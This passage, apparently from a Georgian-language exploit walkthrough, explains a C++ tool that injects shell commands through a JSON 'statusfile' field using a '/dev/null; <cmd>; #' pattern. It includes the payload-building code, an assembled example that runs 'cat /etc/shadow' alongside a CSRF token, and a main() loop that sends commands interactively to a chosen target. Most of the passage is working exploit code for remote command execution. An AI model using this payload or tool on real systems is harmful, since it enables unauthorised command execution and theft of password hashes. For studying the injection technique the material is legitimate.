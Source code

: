 ```C++

    std::wstring result = pwn(hConnect, CSRF_token, cmd);
    std::wcout << result << std::endl;

    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
}
```

`exploit` ფუნქცია იყენებს `pwn` ფუნქციას `std::wstring result = pwn(hConnect, CSRF_token, cmd);` ნაწილში. აქ ყველაზე საინტერესო არის `payload`, რომელიც არის ის ინფო, რომელიც მიდის სამიზნე სერვერთან:

```C++
std::wstring payload = L"{\"statusfile\":\"/dev/null; " + cmd + L"; #\",\"csrftoken\":\"" + CSRF_token + L"\"}";
```

დაკვირვების შედეგად ჩანს, რომ ინფორმაცია არის `JSON` ტიპის მონაცემი და მთლიანად რომ ავაწყო, ასეთი რამ გამოვა:

```JSON
{
	"statusfile": "/dev/null; cat /etc/shadow; #",
	"csrftoken": "46eff9c40c47c73ed48430ce18f1e9796ab2fd681b875d97e441afa2c7ece762"
}
```

რა თქმა უნდა, `cat /etc/shadow` და `46eff9c40c47c73ed48430ce18f1e9796ab2fd681b875d97e441afa2c7ece762` მაგალითებია.

`#` სიმბოლო `Shell scripting` ენაში(`Bash`) არის კომენტარი და ამ შემთხვევაში გამოიყენება იმისთვის, რომ მომდევნო ბრძანებები ამოიშალოს. `/dev/null` კი მაშინ გამოიყენება ყველაზე ხშირად, როდესაც ბრძანების `სტანდარტული პასუხის`(`STDOUT`), დადუმება არის საჭირო.

```C++
int main(int argc, wchar_t* argv[]) {
    if (argc < 2) {
        std::cout << "Usage: explt.exe <target>" << std::endl;

        return 1;
    }

    std::wstring target = argv[1];
    while (true) {
        std::wstring cmd;
        std::wcout << L"$> ";
        std::getline(std::wcin, cmd);

        exploit(target, cmd);
    }

    return 0;
}
```
